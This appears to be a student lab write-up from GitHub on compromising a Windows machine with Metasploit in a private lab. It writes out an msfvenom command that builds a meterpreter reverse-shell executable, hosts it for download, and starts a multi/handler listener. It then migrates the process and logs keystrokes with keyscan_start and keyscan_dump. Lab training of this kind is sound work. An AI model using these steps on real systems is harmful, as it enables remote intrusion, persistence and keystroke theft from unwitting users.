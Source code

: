 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
![Screenshot 2024-10-28 155116](https://github.com/user-attachments/assets/1d9adda2-6b08-43e5-9ba0-0a0b6182a123)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![Screenshot 2024-10-28 155126](https://github.com/user-attachments/assets/c4186dc4-8a67-4130-8402-2c71843126db)


copy the fun.exe into the apache /var/www/html folder
![Screenshot 2024-10-28 155134](https://github.com/user-attachments/assets/6c659000-a73b-426d-8123-498e32c9c84c)


copy the fun.exe into the apache /var/www/html folder
![Screenshot 2024-10-28 155142](https://github.com/user-attachments/assets/a8eff1cc-a7ff-4448-aa55-ef705268b9d9)
Check the status of apache2
![Screenshot 2024-10-28 155151](https://github.com/user-attachments/assets/bb0992ea-2970-4c8b-91c9-19d6c0ccdcc1)

Invoke msfconsole:
![Screenshot 2024-10-28 155213](https://github.com/user-attachments/assets/e3ba9239-c20d-4d12-8bbf-ade55975613f)
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![Screenshot 2024-10-28 155231](https://github.com/user-attachments/assets/7cab5bb0-884b-4c47-920e-dcf2ff56d355)


Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![Screenshot 2024-10-28 155241](https://github.com/user-attachments/assets/fcd4b7b8-bd68-4e03-aa46-32db3bf54d43)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![Screenshot 2024-10-28 155249](https://github.com/user-attachments/assets/6483cae8-853a-4258-a5b4-ca7dfb3eaff1)

Bypass any warning boxes, double-click the file, and allow it to run.
![Screenshot 2024-10-28 155257](https://github.com/user-attachments/assets/9896537b-3889-4b0b-a4c6-4e207032efc1)

On kali give the command exploit
![Screenshot 2024-10-28 155305](https://github.com/user-attachments/assets/1b0473a9-1a0b-4580-a72e-b740707c431f)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![Screenshot 2024-10-28 155315](https://github.com/user-attachments/assets/152350c4-c89c-4f6f-993e-40f2fc6a6c78)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![Screenshot 2024-10-28 155324](https://github.com/user-attachments/assets/e6c3dabd-0d7f-4be2-a76f-6edac56ca536)



Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![Screenshot 2024-10-28 155331](https://github.com/user-attachments/assets/c21a860a-9498-45e6-960a-38a1dbec4ffb)

![Screenshot 2024-10-28 155342](https://github.com/user-attachments/assets/0eb669b7-e2d8-4076-80ff-380680d1f313)




keyscan_dump Shows the keystrokes captured so far
![Screenshot 2024-10-28 155352](https://github.com/user-attachments/assets/ee98d8b7-14b4-4f2a-9514-1d80dc59ac1e)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
